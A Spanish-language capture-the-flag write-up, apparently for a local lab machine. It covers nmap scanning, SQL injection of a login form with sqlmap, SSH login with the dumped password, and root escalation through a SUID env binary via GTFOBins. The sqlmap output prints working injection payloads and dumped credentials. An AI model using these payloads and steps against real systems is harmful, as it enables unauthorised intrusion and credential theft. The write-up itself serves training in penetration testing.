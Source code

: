 ![](../../../Images/Pasted%20image%2020240921182525.png)

# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con una panel de inicio de sesión. Comprobando los campos del formulario si contienen una posible vulnerabilidad SQLi, comprobamos que el campo de usuario es vulnerable.

![](../../../Images/Pasted%20image%2020240923102252.png)
# Usuario Dylan

Utilizando la herramienta SQLMap realizamos la autoexplotación de la vulnerabilidad encontrada para extraer datos interesantes. Pero, antes de todo, capturamos la petición GET con Burpsuite.

![](../../../Images/Pasted%20image%2020240923103040.png)


Ahora pasamos la petición a SLQMap y le dejamos trabajar.

```
> sqlmap -r req.txt -D register -T users --dump                                                                                     
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:34:00 /2024-09-23/

[12:34:00] [INFO] parsing HTTP request from 'req.txt'
[12:34:00] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:34:00] [INFO] resuming back-end DBMS 'mysql' 
[12:34:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-5829' OR 2077=2077#&password=admin&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=admin' OR (SELECT 4254 FROM(SELECT COUNT(*),CONCAT(0x7176707071,(SELECT (ELT(4254=4254,1))),0x7171707a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ryzS&password=admin&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=admin';SELECT SLEEP(5)#&password=admin&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))TFsI)-- nAJP&password=admin&submit=
---
[12:34:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:34:02] [INFO] fetching columns for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'username'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] resumed: 'passwd'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] fetching entries for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'KJSDFG789FGSDF78'
[12:34:02] [INFO] resumed: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[12:34:02] [INFO] table 'register.users' dumped to CSV file '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[12:34:02] [INFO] fetched data logged to text files under '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2'
[12:34:02] [WARNING] your sqlmap version is outdated

[*] ending @ 12:34:02 /2024-09-23/
```

De esta forma conseguimos un nombre de usuario y una contraseña. 

Ahora podemos iniciar sesión en el servicio SSH abierto en el puerto 22.

```
ssh dylan@$target                                                                                                                   
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.9.7-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@3a52fa45bcbe:~$ 
```

# Escalada de privilegios

Haciendo una investigación a nivel local del sistema descubrimos el binario ``/usr/bin/env`` con permisos SUID.

```
> find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 72712 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 44808 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 72072 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59976 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
```

Ahora nos podemos dirigir al sitio web [GTFOBins](https://gtfobins.github.io/) para descubrir como explotar está vulnerabilidad.

![](../../../Images/Pasted%20image%2020240923103932.png)

Como sudo está desactivado podemos ahorrarnos la primera línea y apuntar directamente a la ruta del binario, consiguiendo así rootear la máquina.



